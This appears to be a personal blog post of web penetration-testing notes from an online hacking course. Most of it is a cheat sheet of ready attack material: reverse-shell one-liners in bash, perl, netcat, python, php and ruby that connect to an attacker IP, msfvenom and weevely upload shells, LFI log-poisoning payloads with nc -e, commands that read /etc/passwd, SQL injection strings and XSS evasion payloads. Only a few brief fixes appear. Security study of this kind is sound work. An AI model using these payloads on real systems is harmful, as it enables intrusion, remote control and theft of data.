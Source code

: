 ```yaml
---
layout: post
title: "Simple-Guide-to-Web-Pentest"
date: 2020-02-10 00:22:00 -0000
categories: jekyll
permalink: /notes/webpentest
tags: [note, htb, web]

---
```


some references i made after enrolled udemy course by Zaid Sabih (Learn Website Hacking / Penetration Testing From Scratch)

## webbugTIPS

### **(Information Gathering)**

- `http://whois.domaintools.com` = find owner target
- `https://toolbar.netcraft.com/site_report?url` = show technology used on target
- `https://www.robtex.com` = show comprehensive info target
- Discovering Websites On The Same Server = *`bing ip:103.198.52.156 php?id`*
- Find subdomain (subdomain.target.com) = git clone https://github.com/guelfoweb/knock.git
- Find file/directory in target website by [_`dirb http://what.com.my /root/usr/share/wlist.txt`_]. Try find [`php.info, robots.txt, config.inc`] for specific target info.
- Maltego - Discovering Websites, Hosting Provider & Emails, Servers, Domains & Files.

### **File Upload Vulnerabilities – allow upload malicious file such as php shell**

- Metasploit Command: *`msfvenom -p php/meterpreter/bind_tcp LPORT=4444 LHOST=192.168.169.137 > /root/shell1.php`*
- Metasploit listener: *`use exploit/multi/handler; set payload php/meterpreter/bind_tcp; set RHOST <target-ip>; set RPORT 4444; run`*
- Upload Weevly shell. *`weevly generate p@55w0rd! shell.php`*
- .Open the url to activated.
- Connect to weevly terminal.  *`weevly http://test.com.my/upload p@55w0rd!`*
- Intercept and modify parameter with burpsuite. 
- How2fix: check validation of format, recreate img and rename img.

### **Code Execution Vulnerabilities – allow execution of OS command such as ping, ls, pwd.**

The following examples assume the hacker IP is 10.20.14 and use port 8080 for the connection. Therefore in all these cases you need to listen for port 8080 using the following command *`nc -vv -l -p 8080`*

- BASH = *`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`*
- PERL= *`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`*
- Netcat = *n`c -e /bin/sh 10.20.14 8080`*
- Python = *`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`*
- PHP = *`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`*
- Ruby = *`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`*


### **Local File Inclusion Vulnerabilities (LFI) – allow read file on same server, access file outside www dir.**

- Check for *`../../../../etc/passwd`* and copy the passwd hashes.
- Gain access method#1. Check for *`../../../../proc/self/environ`* and modify burpsuite Headers Tab>user Agent value from Mozilla to *`<?passthru(“nc -e /bin/sh attackerIP attackerPort”);?>`* and set listener to *`nc -vv -l -p 8888`* on terminal.
- Gain access method#2. Check for *`../../../../var/log/auth.log`* and do SSH by *`ssh “<?passthru(base64_decode(‘nc -e /bin/sh attackerIP attackerPort in base64ofgilberish’));?>”@attackerIP`* and set listener nc in terminal.

### **Remote File Inclusion Vulnerabilities (RFI) – allow access file from other host.**
- How2fix: prevent RFI by `disable allow_url_fopen` & `allow_url_include` in `/etc/php5/cgi/php.ini`.

### **SQLI Vulnerabilities - SQLi In Login Pages – use burpsuite to verify if it filters on client side or server side.**

- [WEAK codepractise] Discover POST try use `and, order by, ‘` and check for error handling. `123456’ and 1=1#`
- [WEAK codepractise] Try `(admin)/(admin’ #); aaa’ or 1=1 #`
- [BETTER codepractise] if client side filter, try modify parameter> password in burpsuite.

### **SQLI Vulnerabilities - Extracting Database**

- Discover GET(viewatURL) by execute at URL using *`admin’ order by 1#`* `# change to %23` to check how many columns are there in db.
- If there are 5 columns then use *`union select 1, database(), user(), version(), 5`*

### **SQLI Vulnerabilities - Advanced Exploitation – blind sqli mean not show any error msg**
- Check manually for blind sqli in URL for TRUE *`1’ and 1=1%23`*, FALSE  `1’ and 1=0%23`.
TRUE  `1’ order by 1%23`, FALSE   `1’ order by 1000000000%23`.
TRUE   `1’ union select table_name,2 from information_schema.tables%23`
`1’ union select null,load_file(‘/etc/passwd’),null,null,null%23`.
- *`Sqlmap -u http://injectablelink.com.org`* . use `‘--sql-shell’` parameter to run sql command.

### **XSS Vulnerabilities**

- Try basic *`<script>alert(“testedXSS”)</script>`*
- If filter, try more *`<sCripT>alert(“testedXSS”)</scRipt>`*
- Refer *https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet*
